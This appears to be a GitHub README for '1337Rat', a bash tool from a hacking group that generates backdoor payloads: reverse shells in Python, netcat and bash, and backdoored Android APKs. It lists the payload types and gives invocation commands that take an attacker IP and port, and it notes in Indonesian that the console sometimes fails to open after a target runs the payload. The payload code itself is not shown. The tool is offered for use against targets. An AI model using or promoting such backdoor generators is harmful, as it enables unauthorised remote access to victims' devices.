 # 1337Rat
Simpel Script To Generate Bash Payload
_/_/ _/_/_/ _/_/_/ _/_/_/     _/_/_/  _/_/_/ _/_/_/
   _/     _/     _/     _/     _/   _/ _/  _/   _/                  
  _/ _/_/_/ _/_/_/   _/_/_/   _/_/_/  _/_/_/   _/
 _/     _/     _/     _/     _/ _/   _/  _/   _/                    _/ _/_/_/ _/_/_/     _/     _/   _/ _/  _/   _/

 --[ Created By : ./Xi4u7                                           ---[ From AndroSec1337 Cyber Team
 --[ Special Thanks To : nullbyte


  [+]   Info + Tutorial   [+]

[+] BUG Tools :

- Kadang Console Gak Keluar Walaupun Target Udah RUN Payload :'(

[+] LIST PAYLOAD :

 python       : Generate Payload Using Python Script
 linux_netcat : Generate Netcat Backdoor Using Bash Script
 linux_bash   : Generate Payload Using bash Script
 android      : Generate apk file to backdoor

[+] DEMO :

 ./1337Rat.sh linux_bash YourIP Port Output
 ./1337Rat.sh linux_netcat YourIP Port Output
 ./1337Rat.sh python YourIP Port Output
 ./1337Rat.sh android YourIP Port Output
